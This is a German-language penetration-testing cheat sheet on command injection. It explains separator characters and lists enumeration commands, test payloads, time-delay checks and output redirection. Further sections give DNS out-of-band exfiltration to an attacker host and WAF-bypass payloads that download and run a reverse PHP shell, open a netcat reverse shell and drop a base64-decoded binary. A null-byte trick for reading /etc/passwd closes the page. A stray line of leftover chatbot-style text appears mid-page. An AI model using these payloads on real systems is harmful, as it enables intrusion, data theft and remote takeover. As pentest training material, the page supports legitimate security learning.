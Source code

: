 ```yaml
---
description: Einschleusen von Systembefehlen
---
```


# Command Injection

<details>

<summary>Links:</summary>

[https://github.com/payloadbox/command-injection-payload-list](https://github.com/payloadbox/command-injection-payload-list)

</details>

Command Injection (Befehlsinjektion) beschreibt eine schwerwiegende Sicherheitslücke, bei der ein Angreifer beliebige Betriebssystembefehle in eine Anwendung einschleusen kann. Dies geschieht typischerweise durch manipulierte Parameter in URLs, Formularen oder HTTP-Requests. Der Angriff ist möglich, wenn Benutzereingaben ungefiltert an eine Shell übergeben werden, z. B. über `exec()`, `system()`, `passthru()`,`popen()` oder ähnliche Funktionen in serverseitigem Code.

## 0. Testen auf Command Injection

### 0.a Blind Injection

Hier sollten Blind-Injection-Payloads mit delay verwendet werden um die Anwendung für bestimmte Zeit zu blockieren, was die Anfälligkeit beweist.

Dafür können bspw. `ping` oder `sleep` verwendet werden.&#x20;

Ebenso kann der Output eines Befehls per `>` in eine Datei geschrieben werden, die dann mit `cat` ausgelesen werden kann.

### 0.b Verbose Injection

Da hier der Output direkt durch die Web-Applikation dargestellt wird, kann durch bspw. `ping` oder `whoami` die Anfälligkeit geprüft werden.

***

## **1. Typische Einfallstore für Befehlsinjektionen**

Die Schwachstelle tritt häufig bei Anwendungen auf, die Benutzereingaben in einem Systemkontext ausführen – etwa zur Verarbeitung von Dateipfaden, Pingen von Hosts oder Aufrufen von Hilfsprogrammen. Jede Eingabe, die an eine URL oder einen Befehlskontext angehängt wird, kann potenziell angreifbar sein.

**Beispielhafte URLs mit Injektionsmöglichkeit:**

```
http://example.com/ping?host=127.0.0.1
http://example.com/process?user=name
```

***

## **2. Zeichen zur Befehlstrennung (Special Characters)**

Zur Durchführung von Command Injections werden Zeichen verwendet, die die Shell zur Trennung oder Verkettung von Befehlen interpretiert. Diese Zeichen ermöglichen es, über reguläre Eingaben hinaus zusätzliche Befehle einzuschleusen.

| Zeichen         | Funktion                                              |
| --------------- | ----------------------------------------------------- |
| `&`             | Führt mehrere Befehle nacheinander aus                |
| `;`             | Trennt zwei Befehle (unabhängige Ausführung)          |
| `&&`            | Führt zweiten Befehl nur bei Erfolg des ersten aus    |
| `` `command` `` | Führt `command` aus und ersetzt ihn durch die Ausgabe |
| `$(command)`    | Alternative zu Backticks für Befehlsausführung        |
|  (Newline)      | Neue Zeile – kann zur Trennung genutzt werden         |

***

## **3. Nützliche Befehle für die Enumeration**

#### **Linux**

```bash
whoami         # Benutzername
ifconfig       # Netzwerkinformationen
ls             # Verzeichnisinhalt
uname -a       # Systeminformationen
```

#### **Windows**

```cmd
whoami         # Benutzername
ipconfig       # Netzwerkinformationen
dir            # Verzeichnisinhalt
ver            # Betriebssystemversion
```

***

## **4. Plattformübergreifende Testpayloads**

Diese Payloads funktionieren unter Unix- und Windows-Systemen, um einfache Prüfungen vorzunehmen.

```bash
ls||id
ls | id
ls && id
ls & id
ls %0A id     # URL-codierter Newline zur Trennung
```

***

## **5. Zeitbasierte Erkennung (Time Delay)**

**Zweck:** Testen, ob ein injizierter Befehl tatsächlich ausgeführt wird – etwa durch Beobachtung von Antwortverzögerungen.

```bash
& ping -c 10 127.0.0.1 &
```

**Hinweis:** Unter Windows funktioniert z. B. `ping -n 10 127.0.0.1`

***

## **6. Ausgabeumleitung und Dateischreibung**

Injektionen lassen sich durch Umleitung der Befehlsausgabe verifizieren. Die Resultate werden z. B. in eine Datei geschrieben, auf die später zugegriffen werden kann.

```bash
& whoami > /var/www/images/output.txt &
```

***

## **7. Out-of-Band (OOB) Exploitation**

Wenn keine direkte Rückmeldung erfolgt, kann die Injektion über externe Server validiert werden. Dies eignet sich besonders bei restriktiven Firewalls oder Logging-basierten Auswertungen.

```bash
& nslookup attacker-server.com &
& nslookup `whoami`.attacker-server.com &
```

Diese Methode überträgt Ausgaben via DNS-Request an einen kontrollierten Server und bestätigt so die Injektion indirekt.

***

## **8. WAF-Umgehungstechniken**

Web Application Firewalls (WAFs) versuchen häufig, bekannte Payloads zu blockieren. Durch Kodierung, Umstrukturierung oder alternative Syntax können diese Schutzmechanismen umgangen werden.

**Beispiele:**

```bash
vuln=127.0.0.1%0a wget https://evil.txt/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php
```

```bash
vuln=127.0.0.1%0anohup nc -e /bin/bash <attacker-ip> <attacker-port>
```

```bash
vuln=echo PAYLOAD > /tmp/payload.txt; cat /tmp/payload.txt | base64 -d > /tmp/payload; chmod 744 /tmp/payload; /tmp/payload
```

Diese Methoden ermöglichen unter anderem das Nachladen und Ausführen von Reverse Shells oder skriptbasierten Angriffen.

Hier ist ein professionell formulierter **Mini-Zusammenschrieb**, der das beschriebene Szenario technisch präzise zusammenfasst und gleichzeitig den geeigneten Kontext in Ihrer standardkonformen Angriffskategorisierung bestimmt:

***

## **9. Poison Null Byte Bypass**

**Beschreibung:**\
Ein **Poison Null Byte** ist eine klassische Technik zur Umgehung serverseitiger Filtermechanismen, insbesondere bei Pfad- oder Dateiverarbeitungen. Der Null-Byte-Zeichenwert (`%00`) signalisiert in vielen Programmiersprachen (v. a. in C/C-basierten Umgebungen) das Ende eines Strings. Durch gezielte Manipulation — z. B. in Kombination mit Dateiendungen — kann ein Angreifer erreichen, dass der Server eine Datei anders interpretiert als beabsichtigt.

**Beispiel:**\
Ein Server blockiert den Zugriff auf `.md`-Dateien mit einem `403 Forbidden`. Durch Einschleusen eines Null-Byte-Zeichens (`%00`) vor einer erlaubten Dateiendung wird der Pfad abgeschnitten und die Zugriffskontrolle umgangen. In URL-kodierter Form muss das `%00` nochmals kodiert werden → `%2500`.

**Angriffsvektor:**

```
/download.php?file=../../etc/passwd%2500.md
```

Der Server prüft auf `.md`, bricht aber die Pfadverarbeitung beim Nullbyte ab und gibt ggf. den Inhalt von `/etc/passwd` aus.
